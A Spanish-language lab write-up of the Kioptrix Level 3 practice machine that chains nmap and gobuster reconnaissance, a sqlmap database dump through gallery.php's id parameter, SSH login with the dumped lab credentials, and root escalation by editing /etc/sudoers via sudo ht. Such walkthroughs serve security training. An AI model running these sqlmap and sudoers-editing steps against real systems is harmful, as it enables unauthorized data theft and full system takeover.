# SQLmap — Kioptrix Level 3

Writeup del laboratorio **Kioptrix Level 3**: comprometer una máquina Linux vulnerable (Ubuntu 8.04 Hardy Heron) partiendo de reconocimiento pasivo hasta obtener acceso root, explotando una inyección SQL en la aplicación Gallarific Gallery.

> **Entorno de laboratorio.** Todos los comandos están dirigidos a una máquina virtual de prueba. No deben aplicarse fuera de un entorno CTF o de pentesting autorizado.

## Metodología

```
Reconocimiento → Enumeración web → SQL Injection (sqlmap) → Acceso SSH → Escalada de privilegios (sudo ht)
```

## Índice

1. [Estructura del repositorio](#estructura-del-repositorio)
2. [Reconocimiento: arp-scan y nmap](#1-reconocimiento-arp-scan-y-nmap)
3. [Enumeración web con Gobuster](#2-enumeración-web-con-gobuster)
4. [Exploración manual de la aplicación](#3-exploración-manual-de-la-aplicación)
5. [Corrección DNS en /etc/hosts](#4-corrección-dns-en-etchosts)
6. [Explotación SQL Injection con sqlmap](#5-explotación-sql-injection-con-sqlmap)
7. [Acceso SSH con credenciales comprometidas](#6-acceso-ssh-con-credenciales-comprometidas)
8. [Escalada de privilegios con el editor ht](#7-escalada-de-privilegios-con-el-editor-ht)
9. [Flag](#flag)

## Estructura del repositorio

```
sqlmap-kioptrix3/
├── README.md
├── screenshots/              # Evidencias visuales de cada paso
└── scripts/
    ├── 01-reconocimiento.sh
    ├── 02-gobuster.sh
    ├── 03-configurar-etc-hosts.sh
    ├── 04-sqlmap-injection.sh
    ├── 05-acceso-ssh.sh
    └── 06-escalada-privilegios.sh
```

## 1. Reconocimiento: arp-scan y nmap

Script: [`scripts/01-reconocimiento.sh`](scripts/01-reconocimiento.sh)

Se descubren los hosts activos de la red local con `arp-scan`:

```bash
sudo arp-scan --interface=eth1 --localnet
```



Sobre el host identificado (`10.0.2.26`) se lanza un escaneo completo con nmap:

```bash
sudo nmap -sV -Pn -sS -O -n 10.0.2.26 -o /home/kali/reto_final/vm1/nmap.txt
```



| Parámetro | Función |
|---|---|
| `-sV` | Detecta versiones de servicios |
| `-Pn` | Omite el ping previo |
| `-sS` | Escaneo SYN sigiloso |
| `-O` | Detecta el sistema operativo |
| `-n` | Sin resolución DNS |
| `-o` | Guarda la salida en fichero |

El servidor expone el **puerto 22** (OpenSSH 4.7p1) y el **puerto 80** (Apache 2.2.8 / PHP 5.2.4).

## 2. Enumeración web con Gobuster

Script: [`scripts/02-gobuster.sh`](scripts/02-gobuster.sh)

```bash
gobuster dir -u http://10.0.2.26/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x bak,zip,php,txt,pdf
```



Entre los resultados destacan `/gallery` (la aplicación vulnerable) y `/phpmyadmin` (con panel de login accesible pero sin privilegios con SQLi básica).



## 3. Exploración manual de la aplicación

Inspeccionando el código fuente de `/gallery/` se encuentra un enlace comentado que revela el panel de administración de Gallarific:

```html
<!-- <a href="gadmin">Admin</a>&nbsp;&nbsp; -->
```

Y una etiqueta `<base>` que indica el dominio real que usa la aplicación:

```html
<base href="http://kioptrix3.com/gallery/">
```

El panel de administración (`/gallery/gadmin`) solicita credenciales que aún no se tienen:



## 4. Corrección DNS en /etc/hosts

Script: [`scripts/03-configurar-etc-hosts.sh`](scripts/03-configurar-etc-hosts.sh)

La galería no carga correctamente porque Kali no resuelve `kioptrix3.com`. Se añade la entrada manualmente:

```bash
sudo nano /etc/hosts
# Añadir:  10.0.2.26    kioptrix3.com
```



Tras el cambio, la galería renderiza correctamente con todas sus imágenes y estilos:



## 5. Explotación SQL Injection con sqlmap

Script: [`scripts/04-sqlmap-injection.sh`](scripts/04-sqlmap-injection.sh)

El parámetro `?id=` de `gallery.php` es vulnerable a inyección SQL. Se usa sqlmap para enumerarlo:

```bash
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid" --dbs
```



Las bases de datos disponibles son `gallery`, `information_schema` y `mysql`. Se extrae el contenido completo de `gallery`:

```bash
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid" \
  --batch -D gallery --dump-all
```

El dump revela dos usuarios con sus hashes MD5 ya crackeados:



| ID | Usuario | Contraseña |
|---|---|---|
| 1 | `dreg` | `Mast3r` |
| 2 | `loneferret` | `starwars` |

Además, en otra tabla se encuentra un usuario con privilegios de superuser en la aplicación web:



| Usuario | Contraseña | Tipo |
|---|---|---|
| `admin` | `n0t7t1k4` | superuser |

## 6. Acceso SSH con credenciales comprometidas

Script: [`scripts/05-acceso-ssh.sh`](scripts/05-acceso-ssh.sh)

SSH moderno deshabilita los algoritmos legados de intercambio de clave. Para conectar con este servidor Ubuntu 8.04 es necesario habilitarlos explícitamente:

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa admin@10.0.2.26
```

El usuario `admin` no tiene acceso SSH a pesar de ser superuser en la aplicación web:



En cambio, `loneferret` conecta correctamente:



```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa loneferret@10.0.2.26
```

Verificamos identidad y privilegios actuales con `whoami && id && uname -a`:



## 7. Escalada de privilegios con el editor ht

Script: [`scripts/06-escalada-privilegios.sh`](scripts/06-escalada-privilegios.sh)

En el home de `loneferret` existe un fichero `CompanyPolicy.README` que da una pista directa:



El editor `ht` tiene permiso `sudo` para `loneferret`. Al abrirlo con `sudo`, se ejecuta con privilegios de root y puede editar cualquier fichero del sistema, incluido `/etc/sudoers`:

```bash
export TERM=xterm
sudo /usr/local/bin/ht
```

Con `ALT+F → Open → /etc/sudoers` se añade la siguiente línea:

```
loneferret ALL=(ALL) NOPASSWD: ALL
```



Se guarda con `ALT+F → Save` y se escala a root:

```bash
sudo su
whoami  # root
```

## Flag

```bash
cat /root/Congrats.txt
```



Máquina completamente comprometida.

---

## Resumen de credenciales obtenidas

| Usuario | Contraseña | Acceso |
|---|---|---|
| `dreg` | `Mast3r` | SSH |
| `loneferret` | `starwars` | SSH (usado para escalar) |
| `admin` | `n0t7t1k4` | Panel web Gallarific (sin SSH) |
